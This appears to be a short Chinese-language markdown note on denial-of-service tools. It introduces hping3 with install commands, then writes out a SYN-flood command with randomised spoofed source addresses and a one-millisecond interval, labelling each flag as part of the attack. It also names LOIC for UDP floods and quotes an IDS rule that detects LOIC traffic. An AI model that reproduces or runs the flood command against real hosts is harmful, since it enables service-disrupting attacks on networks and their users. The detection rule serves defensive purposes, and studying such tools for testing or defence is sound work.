

## hping3

hping3是一款免费的数据包生成器和分析器。可用于安全审计、防火墙规则测试、网络测试、端口扫描、性能测试，压力测试(DOS)，几乎可以发送任意类型的TCP/IP数据包。功能强大但是每次只能向一个IP地址发送数据包，还能够在两个相互包含的通道之间传送文件。

http://man.linuxde.net/hping3  推荐使用centos

	kali:      apt-get install  libpcap-dev tcl-dev
	
	centos:    yum install libpcap-devel tcl-devel

输入命令：

	hping ip/domain -p 80 -S -i u1000 --rand-source

	-p 目标端口
	
	-S TCP SYN攻击
	
	-i 攻击间隔
	
	--rand-source 源ip随机

有些网站PING不通但又能访问. 应该是该网站禁用了ICMP回应或者开启了ICMP过滤。

如果设置了ICMP过滤，在白名单以外的机器都不会得到回应

## LOIC.exe

发起UDP flood 攻击。

	alert udp $EXTERNAL_NET any -> $HOME_NET any (msg:"DOS UDP Based DOS LOIC Low Orbit Ion Cannon Attack Default String"; content:"A cat is fine too. Desudesudesu~"; dsize:32; threshold: type both, track by_src, count 5, seconds 30; reference:md5,b596e7cacbad1e814b0cd053086c4900; classtype:dos; sid:2806662; rev:8; metadata:created_at 2013_07_12, updated_at 2013_07_12;)

## 参考资料

[hping3详细使用教程](https://mochazz.github.io/2017/07/23/hping3/)

